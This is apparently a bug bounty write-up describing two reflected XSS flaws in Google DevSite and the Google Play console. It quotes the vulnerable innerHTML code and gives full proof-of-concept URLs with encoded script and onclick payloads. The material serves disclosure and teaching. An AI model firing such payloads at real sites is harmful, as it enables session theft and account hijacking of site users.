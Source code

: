 ```yaml
---
title: Google XSS
---
```


# Google DevSite XSS (cloud.google.com, developers.google.com) $3133.70

Due to a vulnerability in the server-side implementation of `<devsite-language-selector>` part of the URL was reflected as html so it was possible to get XSS on the origins using that component from the 404 page.  
This was found using [DalFox](https://dalfox.hahwul.com/docs/home/) which kept finding the same bug due to it being the "not found" page.

https://developers.google.com/foo%22%3E%3Cimg%20src=x%3E%3C/a%3E%3C/li%3E%3C/ul%3E%3C/devsite-language-selector%3E%3Ch1%3E%3Cscript%3Ealert(document.domain)%3C/script%3E/a
https://cloud.google.com/foo%22%3E%3Cimg%20src=x%3E%3C/a%3E%3C/li%3E%3C/ul%3E%3C/devsite-language-selector%3E%3Ch1%3E%3Cscript%3Ealert(document.domain)%3C/script%3E/a

# Google Play XSS (play.google.com) $5000

On the search page of google play console vulnerable code was run when the search resulted in an error.  
Getting an error was simple as doing `/?search=&` and because `window.location` includes the hash which never encodes `'` it’s possible to escape the href context and set other html attributes, unlike the DevSite XSS this is prevented by the CSP but was still awarded more by the panel.

```js
b.innerHTML = b.innerHTML.replace(
  /({query})/g,
  "<a href='" + window.location + "'>" + a.g + '</a>',
);
```

https://play.google.com/console/about/search-results/?search=&#'onclick=alert(document.domain)//

The writeups are referenced on [PortSwigger](https://portswigger.net/daily-swig/xss-vulnerabilities-in-google-cloud-google-play-could-lead-to-account-hijacks)
